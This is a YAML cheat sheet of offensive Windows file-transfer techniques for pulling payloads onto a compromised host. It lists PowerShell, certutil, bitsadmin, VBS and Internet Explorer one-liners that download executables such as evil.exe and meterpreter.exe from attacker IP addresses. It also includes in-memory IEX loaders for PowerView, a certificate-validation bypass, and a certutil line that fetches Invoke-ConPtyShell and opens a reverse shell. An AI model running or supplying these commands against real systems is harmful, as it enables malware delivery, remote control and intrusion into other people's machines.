 ```yaml
---
functions:
  file-transfer:
    - description: Download Files
      code: |
        +++++++++++POWERSHELL+++++++++++

        powershell -c "[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).DownloadFile('https://68.183.217.18:56789/svchosts.exe','svchosts.exe')"

        powershell -c iwr -Uri http://192.168.119.149:8000/task.xml -OutFile task.xml -usebasicparsing

        Invoke-Webrequest -Uri http://192.168.1.1:8080/sysupdate.exe -usebasicparsing

        powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')"

        Download and run IN MEM ONLY:
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149/Invoke-TM.ps1'))
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149:8000/PowerView.ps1'))
    
        Ignore Cert Trusts - [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
    
        (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.149/file.exe', 'here.exe')

        CERTUTIL


        certutil.exe -urlcache -f http://192.168.119.149:8000/task.xml task.xml
        certutil.exe -urlcache -f http://192.168.119.149:8000/Invoke-ConPtyShell.ps1 Invoke-ConPtyShell.ps1; Invoke-ConPtyShell 192.168.119.149 9999


        PS BITSADMIN


        Import-Module BitsTransfer
        Start-BitsTransfer -Source $url -Destination $output
        #OR
        Start-BitsTransfer -Source $url -Destination $output -Asynchronous


        BITSADMIN
        

        Download:
        bitsadmin /create /download myjob
        bitsadmin /addfile myjob http://192.168.119.149/shell.exe c:\xampp\htdocs\shell.exe
        bitsadmin /resume myjob
        bitsadmin /reset
        bitsadmin /complete myjob


        VBS


        see wget.vbs

        Specific File [replace filenames]:
        echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"


        IE


        iexplorer.exe http://192.168.119.149:8000/1.bat
        iexplorer.exe http://192.168.119.149/task.xml
resources: |

---
```

